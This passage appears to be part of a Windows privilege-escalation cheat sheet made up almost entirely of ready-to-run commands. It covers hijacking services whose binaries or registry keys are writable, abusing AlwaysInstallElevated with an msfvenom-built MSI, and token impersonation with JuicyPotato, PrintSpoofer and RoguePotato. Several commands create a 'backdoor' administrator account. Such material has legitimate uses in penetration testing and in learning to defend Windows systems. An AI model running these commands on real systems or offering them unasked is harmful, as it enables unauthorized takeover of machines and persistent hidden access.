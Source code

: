 #### Service Binary Permissions
```cmd
# Find services with modifiable binaries
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

# Replace service binary
copy cmd.exe "C:\path\to\vulnerable-service.exe"
sc stop <service-name>
sc start <service-name>
```

### 2. AlwaysInstallElevated
```cmd
# Check if enabled
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

# Create malicious MSI
msfvenom -p windows/adduser USER=backdoor PASS=Password123! -f msi -o malicious.msi

# Install MSI (runs as SYSTEM)
msiexec /quiet /qn /i C:\malicious.msi
```

### 3. Registry Permissions
```cmd
# Check service registry permissions
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service>

# Modify service ImagePath
reg add HKLM\SYSTEM\CurrentControlSet\services\<service> /v ImagePath /t REG_EXPAND_SZ /d "C:\path\to\evil.exe" /f

# Restart service
sc stop <service>
sc start <service>
```

### 4. Token Impersonation

#### SeImpersonatePrivilege
```cmd
# Check for SeImpersonatePrivilege
whoami /priv

# Use JuicyPotato (Windows < Server 2019)
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c net user backdoor Password123! /add && net localgroup administrators backdoor /add" -t * -c {BB6DF56B-CACE-11DC-9992-0019B93A3A84}

# Use PrintSpoofer (Windows Server 2019+)
PrintSpoofer.exe -i -c cmd

# Use RoguePotato
RoguePotato.exe -r <redirector-ip> -e "cmd.exe /c net user backdoor Password123! /add && net localgroup administrators backdoor /add" -l 135
```
